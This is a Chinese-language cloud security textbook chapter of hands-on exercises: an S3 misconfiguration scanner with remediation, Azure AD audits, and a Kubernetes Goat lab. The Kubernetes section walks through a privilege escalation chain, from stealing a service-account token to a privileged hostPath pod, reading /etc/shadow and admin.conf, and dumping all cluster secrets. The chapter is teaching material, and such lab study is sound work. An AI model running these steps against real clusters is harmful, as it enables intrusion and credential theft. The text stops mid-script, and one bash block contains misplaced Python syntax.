



# 第19章 云安全 - 练习方法

## 学习路线图

云安全练习需要遵循"理论→工具→实操→复盘"的闭环路径。以下10个练习覆盖AWS、Azure、GCP三大云平台及Kubernetes、Serverless等云原生技术，按难度递进排列。



### 练习总览

| 编号 | 练习名称 | 难度 | 预计耗时 | 涉及平台 | 前置知识 |
|:---:|:---|:---:|:---:|:---:|:---|
| 1 | AWS S3桶安全评估 | ⭐⭐ | 2-3小时 | AWS | AWS CLI基础、S3概念 |
| 2 | Kubernetes集群渗透测试 | ⭐⭐⭐⭐ | 4-6小时 | K8s | K8s架构、Pod/Service概念 |
| 3 | Azure AD安全评估 | ⭐⭐⭐ | 3-4小时 | Azure | Azure AD概念、Graph API |
| 4 | 云元数据服务利用 | ⭐⭐⭐ | 2-3小时 | AWS | HTTP协议、SSRF原理 |
| 5 | Prowler自动化安全评估 | ⭐⭐ | 1-2小时 | AWS | AWS安全基础 |
| 6 | GCP安全评估实战 | ⭐⭐⭐ | 3-4小时 | GCP | GCP IAM、Service Account |
| 7 | Serverless安全攻防 | ⭐⭐⭐ | 3-4小时 | AWS/GCP | Lambda/Cloud Functions |
| 8 | 跨云IAM权限提升 | ⭐⭐⭐⭐⭐ | 5-8小时 | 多云 | 云IAM深度理解 |
| 9 | 云取证与威胁检测 | ⭐⭐⭐ | 3-4小时 | AWS/Azure | 日志分析、安全监控 |
| 10 | 多云安全架构设计 | ⭐⭐⭐⭐ | 4-6小时 | 多云 | 全部前置练习 |

### 环境准备清单

在开始任何练习之前，确保以下环境就绪：

```bash
# 1. AWS CLI 安装与配置
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o awscliv2.zip
unzip awscliv2.zip && sudo ./aws/install
aws configure  # 输入 Access Key、Secret Key、Region

# 2. Azure CLI 安装
curl -sL https://aka.ms/InstallAzureCLIDeb | sudo bash
az login

# 3. GCP SDK 安装
curl https://sdk.cloud.google.com | bash
gcloud auth login
gcloud config set project YOUR_PROJECT_ID

# 4. kubectl 安装
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
sudo install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl

# 5. Python 环境
pip install boto3 azure-identity azure-mgmt-subscription google-cloud-iam
```

### 费用控制策略

云安全练习的最大隐性成本是资源计费。必须严格控制：

- **设置账单告警**：在AWS Console → Billing → Budgets中创建$10上限告警
- **使用免费套餐**：AWS Free Tier提供12个月免费S3/EC2/Lambda额度
- **练习后清理**：每次练习结束运行清理脚本删除所有临时资源
- **使用LocalStack**：对于不需要真实云API的练习，LocalStack可以在本地模拟AWS服务

```bash
# LocalStack快速启动（免费的本地AWS模拟器）
pip install localstack
localstack start -d
# 使用endpoint-url指向本地
aws --endpoint-url=http://localhost:4566 s3 mb s3://test-bucket
```

---

## 练习一：AWS S3桶安全评估

### 练习目标

掌握AWS S3桶的安全评估方法，能够识别常见的S3安全配置问题，包括公开访问、缺失加密、版本控制未启用、日志未开启等风险，并编写自动化扫描脚本进行批量检测。

### 为什么这个练习重要

S3数据泄露是云安全事件中最高频的类型之一。2019年Capital One泄露事件影响了1.06亿用户，根本原因就是一个配置错误的S3桶策略结合过度授权的IAM角色。据IBM《2024年数据泄露成本报告》，云配置错误导致的数据泄露平均成本达到445万美元。掌握S3安全评估是从云安全入门的第一步。

### 练习环境

- AWS免费账户（注册后12个月内享有免费额度）
- AWS CLI v2已配置（`aws --version`验证）
- Python 3.8+环境及boto3库（`pip install boto3`）
- jq工具（`sudo apt install jq`，用于JSON处理）

### 练习步骤

#### 步骤1：创建测试S3桶并故意配置错误

```bash
# 生成唯一桶名（S3桶名全局唯一）
BUCKET_NAME="security-test-$(date +%s)"
aws s3 mb s3://$BUCKET_NAME --region us-east-1

# 上传测试文件
echo "Confidential: API_KEY=sk-1234567890" > secret.txt
echo "Database password: admin123" > db_config.txt
aws s3 cp secret.txt s3://$BUCKET_NAME/
aws s3 cp db_config.txt s3://$BUCKET_NAME/

# 故意配置错误：禁用公共访问阻止
aws s3api put-public-access-block \
  --bucket $BUCKET_NAME \
  --public-access-block-configuration \
  BlockPublicAcls=false,IgnorePublicAcls=false,BlockPublicPolicy=false,RestrictPublicBuckets=false

# 设置公开ACL（模拟配置错误）
aws s3api put-bucket-acl --bucket $BUCKET_NAME --acl public-read

# 设置允许匿名访问的桶策略
cat > /tmp/bucket-policy.json << 'EOF'
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "PublicRead",
      "Effect": "Allow",
      "Principal": "*",
      "Action": "s3:GetObject",
      "Resource": "arn:aws:s3:::BUCKET_NAME/*"
    }
  ]
}
EOF
sed -i "s/BUCKET_NAME/$BUCKET_NAME/" /tmp/bucket-policy.json
aws s3api put-bucket-policy --bucket $BUCKET_NAME --policy file:///tmp/bucket-policy.json
```

#### 步骤2：手动安全评估

逐项检查S3桶的安全配置：

```bash
# === 公开访问检查 ===
# 检查公共访问阻止配置（应全部为true）
aws s3api get-public-access-block --bucket $BUCKET_NAME | jq '.PublicAccessBlockConfiguration'
# 预期问题：四个字段可能都是false

# 检查桶ACL
aws s3api get-bucket-acl --bucket $BUCKET_NAME | jq '.Grants[] | select(.Grantee.URI != null)'
# 预期问题：可能包含AllUsers或AuthenticatedUsers的授权

# 检查桶策略
aws s3api get-bucket-policy --bucket $BUCKET_NAME --output text | jq '.Statement[] | select(.Principal == "*")'
# 预期问题：Principal为"*"的允许策略

# === 加密检查 ===
aws s3api get-bucket-encryption --bucket $BUCKET_NAME 2>/dev/null || echo "未配置默认加密"
# 预期问题：返回NotFoundError表示没有启用默认加密

# === 版本控制检查 ===
aws s3api get-bucket-versioning --bucket $BUCKET_NAME
# 预期问题：Status字段缺失或为"Suspended"

# === 日志检查 ===
aws s3api get-bucket-logging --bucket $BUCKET_NAME
# 预期问题：LoggingEnabled字段缺失

# === 生命周期检查 ===
aws s3api get-bucket-lifecycle-configuration --bucket $BUCKET_NAME 2>/dev/null || echo "未配置生命周期规则"

# === CORS检查 ===
aws s3api get-bucket-cors --bucket $BUCKET_NAME 2>/dev/null || echo "未配置CORS"

# === 对象锁定检查 ===
aws s3api get-object-lock-configuration --bucket $BUCKET_NAME 2>/dev/null || echo "未配置对象锁定"
```

#### 步骤3：编写自动化扫描脚本

以下脚本覆盖S3安全评估的全部关键检查项，支持批量扫描：

```python
#!/usr/bin/env python3
"""
s3_security_scanner.py - AWS S3桶安全评估扫描器
用法：python3 s3_security_scanner.py [--bucket BUCKET_NAME] [--all] [--output report.json]
"""

import boto3
import json
import argparse
import sys
from datetime import datetime
from botocore.exceptions import ClientError

class S3SecurityScanner:
    CRITICAL_PERMISSIONS = {'s3:GetObject', 's3:PutObject', 's3:DeleteObject', 's3:*'}

    def __init__(self, region='us-east-1'):
        self.s3 = boto3.client('s3', region_name=region)
        self.iam = boto3.client('iam')
        self.findings = []

    def add_finding(self, severity, check, bucket, detail, recommendation):
        self.findings.append({
            'severity': severity,
            'check': check,
            'bucket': bucket,
            'detail': detail,
            'recommendation': recommendation,
            'timestamp': datetime.utcnow().isoformat()
        })

    def check_public_access_block(self, bucket):
        """检查公共访问阻止配置"""
        try:
            resp = self.s3.get_public_access_block(Bucket=bucket)
            config = resp['PublicAccessBlockConfiguration']
            disabled = [k for k, v in config.items() if not v]
            if disabled:
                self.add_finding('CRITICAL', 'PublicAccessBlock', bucket,
                    f'以下公共访问阻止设置已禁用: {", ".join(disabled)}',
                    '启用所有四个公共访问阻止设置：BlockPublicAcls, IgnorePublicAcls, BlockPublicPolicy, RestrictPublicBuckets')
        except ClientError as e:
            if 'NoSuchPublicAccessBlockConfiguration' in str(e):
                self.add_finding('CRITICAL', 'PublicAccessBlock', bucket,
                    '未配置公共访问阻止',
                    'aws s3api put-public-access-block --bucket BUCKET --public-access-block-configuration BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true')

    def check_bucket_acl(self, bucket):
        """检查桶ACL中的公开授权"""
        try:
            acl = self.s3.get_bucket_acl(Bucket=bucket)
            for grant in acl.get('Grants', []):
                grantee = grant.get('Grantee', {})
                uri = grantee.get('URI', '')
                if 'AllUsers' in uri:
                    self.add_finding('CRITICAL', 'BucketACL', bucket,
                        f'桶ACL授予AllUsers {grant["Permission"]}权限',
                        '移除公开ACL授权，使用IAM策略替代')
                elif 'AuthenticatedUsers' in uri:
                    self.add_finding('HIGH', 'BucketACL', bucket,
                        f'桶ACL授予AuthenticatedUsers {grant["Permission"]}权限',
                        'AuthenticatedUsers包含所有AWS账户的用户，应替换为特定账户授权')
        except ClientError:
            pass

    def check_bucket_policy(self, bucket):
        """检查桶策略中的过度授权"""
        try:
            policy_str = self.s3.get_bucket_policy(Bucket=bucket)['Policy']
            policy = json.loads(policy_str)
            for stmt in policy.get('Statement', []):
                if stmt.get('Effect') != 'Allow':
                    continue
                principal = stmt.get('Principal', {})
                if principal == '*' or principal == {'AWS': '*'}:
                    actions = stmt.get('Action', [])
                    if isinstance(actions, str):
                        actions = [actions]
                    dangerous = [a for a in actions if a in self.CRITICAL_PERMISSIONS or a == '*']
                    if dangerous:
                        self.add_finding('CRITICAL', 'BucketPolicy', bucket,
                            f'桶策略允许公开访问: Action={actions}, Resource={stmt.get("Resource")}',
                            '移除公开Principal或限制为特定IAM角色/账户')
        except ClientError as e:
            if 'NoSuchBucketPolicy' not in str(e):
                pass

    def check_encryption(self, bucket):
        """检查默认加密配置"""
        try:
            resp = self.s3.get_bucket_encryption(Bucket=bucket)
            rules = resp['ServerSideEncryptionConfiguration']['Rules']
            for rule in rules:
                algo = rule.get('ApplyServerSideEncryptionByDefault', {}).get('SSEAlgorithm')
                if algo == 'AES256':
                    self.add_finding('MEDIUM', 'Encryption', bucket,
                        '使用SSE-S3加密（AES256），密钥由AWS管理',
                        '考虑使用SSE-KMS加密以获得更好的密钥管理和审计能力')
        except ClientError:
            self.add_finding('HIGH', 'Encryption', bucket,
                '未配置默认服务端加密',
                '启用SSE-S3或SSE-KMS默认加密')

    def check_versioning(self, bucket):
        """检查版本控制状态"""
        try:
            resp = self.s3.get_bucket_versioning(Bucket=bucket)
            status = resp.get('Status')
            mfa_delete = resp.get('MfaDelete')
            if status != 'Enabled':
                self.add_finding('MEDIUM', 'Versioning', bucket,
                    f'版本控制状态: {status or "未启用"}',
                    '启用版本控制以防止意外删除和覆盖')
            if mfa_delete != 'Enabled':
                self.add_finding('HIGH', 'MFADelete', bucket,
                    'MFA Delete未启用',
                    '启用MFA Delete防止未授权的版本删除')
        except ClientError:
            pass

    def check_logging(self, bucket):
        """检查访问日志配置"""
        try:
            resp = self.s3.get_bucket_logging(Bucket=bucket)
            if 'LoggingEnabled' not in resp:
                self.add_finding('MEDIUM', 'AccessLogging', bucket,
                    '未启用服务器访问日志',
                    '启用S3访问日志以记录所有请求，用于安全审计和事件响应')
        except ClientError:
            pass

    def check_public_objects(self, bucket):
        """抽样检查对象级别的公开ACL"""
        try:
            resp = self.s3.list_objects_v2(Bucket=bucket, MaxKeys=20)
            for obj in resp.get('Contents', []):
                try:
                    acl = self.s3.get_object_acl(Bucket=bucket, Key=obj['Key'])
                    for grant in acl.get('Grants', []):
                        uri = grant.get('Grantee', {}).get('URI', '')
                        if 'AllUsers' in uri:
                            self.add_finding('CRITICAL', 'ObjectACL', bucket,
                                f'对象 {obj["Key"]} 对AllUsers公开 {grant["Permission"]}',
                                '移除对象级别的公开ACL')
                except ClientError:
                    pass
        except ClientError:
            pass

    def scan_bucket(self, bucket):
        """对单个桶执行全部检查"""
        self.check_public_access_block(bucket)
        self.check_bucket_acl(bucket)
        self.check_bucket_policy(bucket)
        self.check_encryption(bucket)
        self.check_versioning(bucket)
        self.check_logging(bucket)
        self.check_public_objects(bucket)

    def scan_all_buckets(self):
        """扫描账户下所有S3桶"""
        buckets = self.s3.list_buckets()['Buckets']
        for b in buckets:
            name = b['Name']
            print(f'[*] Scanning: {name}')
            self.scan_bucket(name)
        return len(buckets)

    def generate_report(self, output_format='text'):
        """生成扫描报告"""
        if output_format == 'json':
            return json.dumps(self.findings, indent=2, ensure_ascii=False)

        # 按严重程度排序
        severity_order = {'CRITICAL': 0, 'HIGH': 1, 'MEDIUM': 2, 'LOW': 3}
        sorted_findings = sorted(self.findings, key=lambda x: severity_order.get(x['severity'], 99))

        report = []
        report.append(f'\n{"="*60}')
        report.append(f'S3 Security Scan Report')
        report.append(f'Time: {datetime.utcnow().isoformat()}Z')
        report.append(f'Total Findings: {len(self.findings)}')
        report.append(f'  CRITICAL: {sum(1 for f in self.findings if f["severity"]=="CRITICAL")}')
        report.append(f'  HIGH:     {sum(1 for f in self.findings if f["severity"]=="HIGH")}')
        report.append(f'  MEDIUM:   {sum(1 for f in self.findings if f["severity"]=="MEDIUM")}')
        report.append(f'{"="*60}')

        for f in sorted_findings:
            report.append(f'\n[{f["severity"]}] {f["check"]}')
            report.append(f'  Bucket: {f["bucket"]}')
            report.append(f'  Detail: {f["detail"]}')
            report.append(f'  Fix:    {f["recommendation"]}')

        return '\n'.join(report)


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='S3 Security Scanner')
    parser.add_argument('--bucket', help='Scan a specific bucket')
    parser.add_argument('--all', action='store_true', help='Scan all buckets')
    parser.add_argument('--output', choices=['text', 'json'], default='text')
    args = parser.parse_args()

    scanner = S3SecurityScanner()

    if args.bucket:
        scanner.scan_bucket(args.bucket)
    elif args.all:
        count = scanner.scan_all_buckets()
        print(f'[+] Scanned {count} buckets')
    else:
        print('Usage: python3 s3_security_scanner.py --all OR --bucket NAME')
        sys.exit(1)

    print(scanner.generate_report(args.output))
```

#### 步骤4：修复发现的安全问题

```bash
# 1. 启用公共访问阻止（最关键的一步）
aws s3api put-public-access-block \
  --bucket $BUCKET_NAME \
  --public-access-block-configuration \
  BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true

# 2. 删除公开桶策略
aws s3api delete-bucket-policy --bucket $BUCKET_NAME

# 3. 设置私有ACL
aws s3api put-bucket-acl --bucket $BUCKET_NAME --acl private

# 4. 启用SSE-KMS加密
aws s3api put-bucket-encryption \
  --bucket $BUCKET_NAME \
  --server-side-encryption-configuration '{
    "Rules": [{
      "ApplyServerSideEncryptionByDefault": {
        "SSEAlgorithm": "aws:kms",
        "KMSMasterKeyID": "alias/aws/s3"
      },
      "BucketKeyEnabled": true
    }]
  }'

# 5. 启用版本控制
aws s3api put-bucket-versioning \
  --bucket $BUCKET_NAME \
  --versioning-configuration Status=Enabled

# 6. 启用访问日志
aws s3api put-bucket-logging \
  --bucket $BUCKET_NAME \
  --bucket-logging-status '{
    "LoggingEnabled": {
      "TargetBucket": "'$BUCKET_NAME'",
      "TargetPrefix": "access-logs/"
    }
  }'
```

#### 步骤5：重新扫描验证修复效果

```bash
# 重新运行扫描，确认发现数量归零
python3 s3_security_scanner.py --bucket $BUCKET_NAME

# 清理测试资源
aws s3 rb s3://$BUCKET_NAME --force
rm -f secret.txt db_config.txt /tmp/bucket-policy.json
```

### 常见错误与陷阱

| 错误 | 原因 | 纠正 |
|:---|:---|:---|
| `AccessDenied` 调用 `get-bucket-acl` | IAM用户缺少 `s3:GetBucketAcl` 权限 | 附加 `AmazonS3ReadOnlyAccess` 策略 |
| 扫描脚本报告假阴性 | 桶策略在ACL之上生效，仅查ACL不够 | 同时检查ACL、桶策略和公共访问阻止三者 |
| `BucketAlreadyExists` 创建桶失败 | S3桶名全局唯一 | 加时间戳或随机后缀 |
| 删除桶时提示非空 | 启用版本控制后有删除标记残留 | 用 `--force` 或先删除所有版本 |

### 练习成果

- 掌握S3桶安全配置的7项核心检查（ACL、策略、加密、版本控制、日志、公共访问阻止、对象ACL）
- 能够编写覆盖全部检查项的自动化扫描脚本
- 理解S3安全最佳实践的底层逻辑（防御纵深：公共访问阻止 → 桶策略 → ACL → 对象ACL）

---

## 练习二：Kubernetes集群渗透测试

### 练习目标

从低权限Pod开始，学习Kubernetes集群的攻击路径：服务账户令牌枚举 → API Server信息收集 → 权限提升 → 宿主机逃逸 → 集群管理员获取。理解Kubernetes的安全模型及其薄弱环节。

### 为什么这个练习重要

Kubernetes已成为容器编排的事实标准，但其攻击面远超传统应用。从一个被入侵的Pod到控制整个集群，攻击者可能只需要5步。CNCF《2024年云原生安全报告》显示，60%的K8s安全事件源于错误配置而非软件漏洞。

### 练习环境

- Minikube（本地单节点K8s，推荐新手）或Kind（多节点Docker集群）
- kubectl已配置
- Docker环境

### 练习步骤

#### 步骤1：部署漏洞靶场环境

```bash
# 启动Minikube（推荐使用Docker驱动）
minikube start --driver=docker --memory=4096 --cpus=2

# 部署Kubernetes Goat靶场（专为K8s安全学习设计）
git clone https://github.com/madhuakula/kubernetes-goat.git
cd kubernetes-goat
bash setup-kubernetes-goat.sh

# 等待所有Pod就绪
kubectl get pods -w
# 确认STATUS全部为Running
```

#### 步骤2：初始立足点 — 进入低权限Pod

```bash
# 进入有漏洞的Pod（Kubernetes Goat中的system-monitor Pod）
kubectl exec -it $(kubectl get pods -l app=system-monitor -o jsonpath='{.items[0].metadata.name}') -- bash

# 在Pod内部执行基础枚举
whoami
# 预期输出：非root用户

id
# 预期输出：uid=1000(app) gid=1000(app)

cat /proc/1/status | grep -i cap
# 查看容器拥有的Linux Capabilities
# CapEff: 00000000a80425fb 表示有一组默认capabilities
```

#### 步骤3：服务账户令牌枚举

```bash
# 检查Service Account Token挂载
ls -la /var/run/secrets/kubernetes.io/serviceaccount/
# 包含三个文件：token（JWT令牌）、ca.crt（API Server证书）、namespace（当前命名空间）

# 读取令牌和命名空间
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt

echo "当前命名空间: $NAMESPACE"
echo "令牌前50字符: ${TOKEN:0:50}..."

# 使用令牌查询API Server
# 安装curl（如果容器内没有）
apt-get update && apt-get install -y curl jq 2>/dev/null || apk add curl jq 2>/dev/null

# 查询当前Pod信息
curl -s --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces/$NAMESPACE/pods | jq '.items[].metadata.name'

# 查询所有命名空间的Pod
curl -s --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/pods | jq '.items[].metadata | "\(.namespace)/\(.name)"'

# 查询Secrets（最敏感的信息）
curl -s --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces/$NAMESPACE/secrets | jq '.items[].metadata.name'

# 查询ConfigMaps
curl -s --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces/$NAMESPACE/configmaps | jq '.items[].metadata.name'
```

#### 步骤4：权限审计 — 确认可做的事

```bash
# 使用SelfSubjectRulesReview检查当前权限
curl -s --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -X POST \
  https://kubernetes.default.svc/apis/authorization.k8s.io/v1/selfsubjectrulesreviews \
  -d '{
    "kind": "SelfSubjectRulesReview",
    "apiVersion": "authorization.k8s.io/v1",
    "spec": {"namespace": "'$NAMESPACE'"}
  }' | jq '.status.resourceRules[] | select(.verbs[] == "*") | {resources, apiGroups}'

# 检查是否可以创建Pod（提权的前提条件）
curl -s --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -X POST \
  https://kubernetes.default.svc/apis/authorization.k8s.io/v1/selfsubjectaccessreviews \
  -d '{
    "kind": "SelfSubjectAccessReview",
    "apiVersion": "authorization.k8s.io/v1",
    "spec": {
      "resourceAttributes": {
        "namespace": "'$NAMESPACE'",
        "verb": "create",
        "resource": "pods"
      }
    }
  }' | jq '.status.allowed'
# 如果返回true，表示可以创建Pod，具备提权条件
```

#### 步骤5：权限提升 — 创建特权Pod

```bash
# 创建特权Pod的YAML（在容器内写入）
cat <<'EOF' > /tmp/privesc-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc-pod
  namespace: NAMESPACE_PLACEHOLDER
spec:
  containers:
  - name: privesc
    image: alpine:latest
    command: ["/bin/sh", "-c", "sleep infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
      type: Directory
  hostNetwork: true
  hostPID: true
EOF

# 替换命名空间
sed -i "s/NAMESPACE_PLACEHOLDER/$NAMESPACE/" /tmp/privesc-pod.yaml

# 通过API Server创建特权Pod
curl -s --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/yaml" \
  -X POST \
  -d @/tmp/privesc-pod.yaml \
  https://kubernetes.default.svc/api/v1/namespaces/$NAMESPACE/pods

# 等待Pod启动
sleep 5
curl -s --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces/$NAMESPACE/pods/privesc-pod | jq '.status.phase'
```

#### 步骤6：宿主机逃逸与集群接管

```bash
# 退出当前容器，通过kubectl进入特权Pod
exit

kubectl exec -it privesc-pod -- sh

# 验证特权模式
cat /proc/1/status | grep Cap
# CapEff应为ffffffff...（全部能力）

# 挂载宿主机文件系统
mount /dev/sda1 /mnt 2>/dev/null || mount /dev/vda1 /mnt 2>/dev/null

# 读取宿主机敏感文件
cat /mnt/etc/shadow
cat /mnt/etc/kubernetes/admin.conf
cat /mnt/var/lib/kubelet/config.yaml

# 获取集群管理员kubeconfig
export KUBECONFIG=/mnt/etc/kubernetes/admin.conf

# 验证集群管理员权限
kubectl auth can-i '*' '*' --all-namespaces
# 预期输出：yes

# 列举所有Secrets
kubectl get secrets --all-namespaces

# 读取所有Secret内容（包括TLS证书、数据库密码等）
kubectl get secrets --all-namespaces -o json | \
  jq -r '.items[] | select(.data) | .metadata.namespace + "/" + .metadata.name + ": " + (.data | keys | join(", "))'
```

### 常见错误与陷阱

| 错误 | 原因 | 纠正 |
|:---|:---|:---|
| `Unable to connect to the server` | Pod内DNS解析不了kubernetes.default.svc | 使用ClusterIP直接访问：`kubectl get svc kubernetes` |
| 特权Pod创建失败 | ServiceAccount无Pod创建权限 | 尝试其他攻击路径：ConfigMap/Secret读取、CronJob创建 |
| `mount: permission denied` | 容器未获得`SYS_ADMIN` capability | 检查securityContext.privileged是否为true |
| Minikube启动失败 | 内存不足 | 增加`--memory=4096` |

### 练习成果

- 理解Kubernetes的安全模型：RBAC、ServiceAccount、PodSecurityPolicy/Standards
- 掌握从Pod到集群管理员的完整攻击路径（5步）
- 了解Kubernetes安全加固要点：禁用automountServiceAccountToken、启用PodSecurityAdmission、限制RBAC权限

---

## 练习三：Azure AD安全评估

### 练习目标

学习Azure AD（现称Microsoft Entra ID）的安全评估方法，掌握用户/组/应用注册/服务主体的枚举技巧，识别过度授权的应用、缺失MFA的用户、过于宽松的条件访问策略等安全风险。

### 练习环境

- Azure免费账户（$200试用额度）
- Azure CLI已配置（`az --version`验证）
- Microsoft Graph API权限（`Directory.Read.All`）

### 练习步骤

#### 步骤1：Azure AD枚举

```bash
# 登录Azure
az login

# 获取当前租户信息
az account show --query '{tenantId: tenantId, subscriptionId: id}' --output table

# 列出所有用户（含属性）
az ad user list --query '[].{name:displayName, upn:userPrincipalName, enabled:accountEnabled, mfa:strongAuthenticationMethods[0].methodType}' --output table

# 列出所有安全组及成员数量
az ad group list --query '[].{name:displayName, description:description, id:id}' --output table

# 列出应用注册（企业应用入口）
az ad app list --query '[].{name:displayName, appId:appId, signInAudience:signInAudience, created:createdDateTime}' --output table

# 列出服务主体
az ad sp list --all --query '[].{name:displayName, appId:appId, type:servicePrincipalType}' --output table

# 列出所有角色分配
az role assignment list --all --query '[].{principal:principalName, role:roleDefinitionName, scope:scope}' --output table
```

#### 步骤2：安全配置深度检查

```bash
# === MFA注册状态检查 ===
# 需要Reports.Read.All权限
az rest --method get \
  --uri "https://graph.microsoft.com/v1.0/reports/authenticationMethods/userRegistrationDetails" \
  | jq '.value[] | select(.isMfaRegistered == false) | .userPrincipalName'

# === 条件访问策略审查 ===
az rest --method get \
  --uri "https://graph.microsoft.com/v1.0/identity/conditionalAccess/policies" \
  | jq '.value[] | {name: .displayName, state: .state, conditions: .conditions, grantControls: .grantControls}'

# === 检查全局管理员数量（应为2-4个）===
az rest --method get \
  --uri "https://graph.microsoft.com/v1.0/directoryRoles/roleTemplateId=62e90394-69f5-4237-9190-012177145e10/members" \
  | jq '.value | length'
# 如果超过5个，告警

# === 检查过期的应用凭据 ===
az ad app list --query '[].{name:displayName, appId:appId, credentials:passwordCredentials}' --output json | \
  python3 -c "
import json, sys
from datetime import datetime
apps = json.load(sys.stdin)
for app in apps:
    for cred in app.get('credentials', []):
        exp = datetime.fromisoformat(cred['endDateTime'].replace('Z', '+00:00'))
        if exp < datetime.now(exp.tzinfo):
            print(f'[CRITICAL] {app[\"name\"]}: 凭据已过期 {cred[\"keyId\"][:8]}...')
        elif (exp - datetime.now(exp.tzinfo)).days < 30:
            print(f'[WARNING] {app[\"name\"]}: 凭据将在30天内过期 {cred[\"keyId\"][:8]}...')
"
```

#### 步骤3：识别过度授权的应用

```bash
# 查找拥有高危权限的应用注册
# df021288-bdef-4463-88db-98f22de89214 = User.ReadWrite.All
# 06b708a9-e830-4db3-a914-8e69da51d44f = Application.ReadWrite.All
# 1bfefb4e-e0b5-418b-a88f-73c46d2b8309 = Directory.ReadWrite.All

HIGH_RISK_PERMISSIONS = {
    "df021288-bdef-4463-88db-98f22de89214": "User.ReadWrite.All",
    "06b708a9-e830-4db3-a914-8e69da51d44f": "Application.ReadWrite.All",
    "1bfefb4e-e0b5-418b-a88f-73c46d2b8309": "Directory.ReadWrite.All",
    "9e3f62cf-ca93-4989-b6ce-bf83c28f9b09": "Domain.ReadWrite.All",
    "e1fe6dd8-ba31-4d61-89e7-88639da4683d": "User.Read.All",
}

az ad app list --output json | \
  python3 -c "
import json, sys
